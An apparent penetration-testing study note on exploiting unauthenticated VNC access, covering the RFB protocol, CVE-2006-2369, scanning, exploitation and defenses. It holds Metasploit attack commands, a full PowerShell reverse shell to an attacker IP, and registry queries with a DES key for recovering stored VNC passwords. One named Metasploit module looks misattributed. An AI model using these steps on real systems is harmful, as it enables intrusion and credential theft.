

# Exploiting VNC Unauthenticated Access

## 1. Introduction to Virtual Network Computing (VNC)

Virtual Network Computing (VNC) is a graphical desktop-sharing system that uses the Remote Frame Buffer (RFB) protocol to remotely control another computer. It transmits the keyboard and mouse events from one computer to another, relaying the graphical screen updates back in the other direction, over a network.

VNC is platform-independent—there are clients and servers for many GUI-based operating systems and for Java. Multiple clients may connect to a VNC server at the same time. Popular uses for this technology include remote technical support and accessing files on one's work computer from one's home computer.

From a security perspective, VNC instances are frequently found exposed on internal networks during penetration tests, and alarmingly, often on the public internet. By default, VNC operates on TCP port `5900` (and `5901`, `5902` for subsequent display numbers). A common misconfiguration or vulnerability in VNC deployments is the allowance of unauthenticated access, which effectively provides an attacker with direct, GUI-level access to the target system.

## 2. The Remote Frame Buffer (RFB) Protocol Deep Dive

The RFB protocol is a simple protocol for remote access to graphical user interfaces. Because it works at the frame-buffer level, it is applicable to all windowing systems and applications, including Microsoft Windows, macOS, and the X Window System.

The protocol operates in a strictly defined client-server architecture:
- **VNC Server**: The machine sharing its screen.
- **VNC Client**: The machine accessing the shared screen.

### 2.1 Handshake and Authentication Phase

When a client connects to a VNC server, the RFB protocol initiates a handshake phase. Understanding this sequence is critical for identifying vulnerabilities:

1. **ProtocolVersion Negotiation**: The server sends its highest supported RFB protocol version (e.g., `RFB 003.008\n`). The client responds with the version it wishes to use.
2. **Security/Authentication Negotiation**: The server sends a list of supported security types. Common types include:
   - `1`: None (No authentication required)
   - `2`: VNC Authentication (Standard 8-character DES password)
   - `16`: TightVNC Authentication
   - `18`: TLS Encryption
3. **SecurityResult**: If authentication is required, the challenge-response mechanism occurs. The server sends a 16-byte random challenge, and the client encrypts it using the DES key derived from the password. The server then sends a `SecurityResult` indicating success (`0`) or failure (`1`).
4. **ClientInit and ServerInit**: The client sends a message indicating whether it wants to share the desktop with other clients. The server responds with framebuffer parameters (width, height, pixel format) and the desktop name.

## 3. Vulnerability Overview: Unauthenticated Access

Unauthenticated access to VNC arises primarily from two distinct scenarios:

### Scenario A: Misconfiguration
The system administrator explicitly configures the VNC server to require no authentication (Security Type 1: None). This is usually done for convenience, during staging, or for local testing purposes, but the administrator forgets to secure the service before deploying it to production.

### Scenario B: Authentication Bypass Vulnerabilities
Flaws in the RFB protocol implementation of specific VNC servers allow an attacker to bypass the authentication phase entirely. 

#### The RealVNC Authentication Bypass (CVE-2006-2369)
One of the most infamous vulnerabilities in VNC history is the RealVNC 4.1.1 Authentication Bypass. In this specific version, the VNC server relies heavily on the client to specify which security type to use from the list the server provides.

Due to a catastrophic logical flaw in the server's code, if the client requests Security Type `1` (None), the server accepts it *even if the server did not offer "None" as a valid option*. This allows a maliciously crafted VNC client to simply tell the server, "I choose no authentication," and the server complies, granting full GUI access.

## 4. Architectural Diagram: VNC Authentication Bypass



## 5. Enumeration and Reconnaissance

The first step in exploiting VNC is identifying open VNC ports and determining the authentication requirements.

### 5.1 Nmap Scanning

Nmap is the standard tool for discovering VNC services. You can use the default scripts to determine the protocol version and supported authentication types without actively attempting a login.

```bash
# Basic port scan for VNC (typically 5900-5910)
nmap -p 5900-5910 -sV 10.10.10.50

# Using Nmap NSE scripts to enumerate VNC authentication
nmap -p 5900 --script=vnc-info,vnc-auth 10.10.10.50
```

**Expected Output for Unauthenticated VNC:**
```text
PORT     STATE SERVICE
5900/tcp open  vnc
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|_    None (1)
```
If the script reports `None (1)`, the VNC server is misconfigured to allow unauthenticated access.

### 5.2 Metasploit Enumeration

Metasploit provides a dedicated auxiliary module to scan entire subnets for VNC servers that lack authentication. This is highly effective during internal network penetration tests.

```bash
msfconsole
msf > use auxiliary/scanner/vnc/vnc_none_auth
msf > set RHOSTS 10.10.10.0/24
msf > set THREADS 50
msf > run
```

## 6. Exploitation Methodology

### 6.1 Exploiting Misconfigurations (No Auth)
If the server is legitimately configured with no authentication, exploiting it is as simple as connecting with any standard VNC client.

```bash
# Connect using standard Linux vncviewer
vncviewer 10.10.10.50:5900

# Using TigerVNC or Remmina (GUI tool)
# Simply set the protocol to VNC, enter the IP address, and click connect.
```

### 6.2 Exploiting the RealVNC Bypass (CVE-2006-2369)
If the server is running a vulnerable version of RealVNC (e.g., 4.1.0 or 4.1.1), you can use Metasploit to exploit the authentication bypass vulnerability, or use a custom-compiled VNC client.

#### Using Metasploit
Metasploit contains a module specifically designed to exploit this flaw and inject a payload (like Meterpreter) directly via VNC keystroke injection or by dropping an executable.

```bash
msfconsole
msf > use exploit/windows/vnc/realvnc_client
msf > set RHOST 10.10.10.50
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf > set LHOST 10.10.10.10
msf > exploit
```

#### Using a Patched VNC Client
Alternatively, you can use a custom VNC client explicitly written to exploit the bypass (often called `vncviewer-bypauth`):
```bash
./vncviewer-bypauth 10.10.10.50
```
When this client runs, it ignores the server's requested authentication types and forces type `1` (None). The vulnerable server accepts it, and you get a GUI session.

## 7. Post-Exploitation Actions

Once GUI access is obtained, the attacker has the same level of access as the user currently logged into the target system. 

### 7.1 Gaining a Command Shell
Since VNC provides a GUI, getting a shell is trivial but requires interacting with the desktop.
1. Open the Start menu (Windows) or Terminal (Linux).
2. Execute a reverse shell payload.

**Example: PowerShell Reverse Shell Delivery**
Open `cmd.exe` or `powershell.exe` via the VNC session and type/paste the following:
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### 7.2 Extracting VNC Passwords for Lateral Movement
If you gain access to a host running a VNC server, you can extract the stored VNC password from the registry or file system to use against other hosts in the network (since administrators often reuse VNC passwords).

**Windows TightVNC/RealVNC Registry Keys:**
```cmd
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\Software\TightVNC\Server" /v Password
```

These passwords are obfuscated using a fixed, known DES key (`0x17 0x52 0x2b 0x38 0x89 0x2b 0x2a 0x0f`). 
You can decrypt them instantly using tools like `vncpwd`:
```bash
vncpwd <hex_string_from_registry>
```

### 7.3 Session Hijacking and Snooping
Because VNC operates by mirroring the existing desktop session (unlike RDP which creates a new virtual session), connecting to an active VNC session allows you to monitor the legitimate user's actions in real-time. You can watch them enter passwords, read sensitive emails, or interact with secure applications.

## 8. Defenses and Mitigation

1. **Enforce Strong Authentication:** Ensure all VNC instances are configured to require strong passwords. Do not rely on standard 8-character DES-truncated VNC passwords; use Enterprise authentication (e.g., MS Logon) where possible.
2. **Disable 'None' Security Type:** Audit VNC server configurations to ensure that the `None` security type is explicitly disabled.
3. **Patch and Update:** Ensure VNC software is updated to the latest version to mitigate protocol-level flaws like CVE-2006-2369. Modern VNC servers have patched this logical bypass.
4. **Network Segmentation:** VNC should never be exposed directly to the internet. It should only be accessible over a VPN or internal management VLAN.
5. **Firewall Restrictions:** Implement strict firewall rules (iptables, Windows Firewall) to allow VNC connections only from dedicated administrator IP addresses or jump boxes.
6. **Use SSH Tunneling:** Standard VNC traffic is unencrypted. Tunnel VNC traffic over SSH to provide strong encryption and public-key authentication prior to reaching the VNC service.

## 9. Chaining Opportunities

- **[[13 - Exploiting Telnet and Cleartext Protocols]]**: Because VNC traffic is largely unencrypted (excluding the initial password hash exchange), if an attacker cannot bypass authentication but is positioned for a Man-in-the-Middle attack, they can sniff VNC keystrokes and session data to capture sensitive information.
- **[[08 - Network Pivoting and Tunneling]]**: A compromised VNC host with GUI access can be used as a primary jump box to pivot further into the internal network, utilizing built-in web browsers or internal network tools.
- **[[23 - Local Privilege Escalation]]**: Once a low-privileged VNC session is established, attackers can execute local privilege escalation exploits to gain `SYSTEM` or `root` access.

## 10. Related Notes
- [[02 - Introduction to Network Protocols]]
- [[05 - Remote Desktop Protocol RDP Exploitation]]
- [[21 - Lateral Movement Techniques]]
- [[72.13 Exploiting Telnet and Cleartext Protocols]]
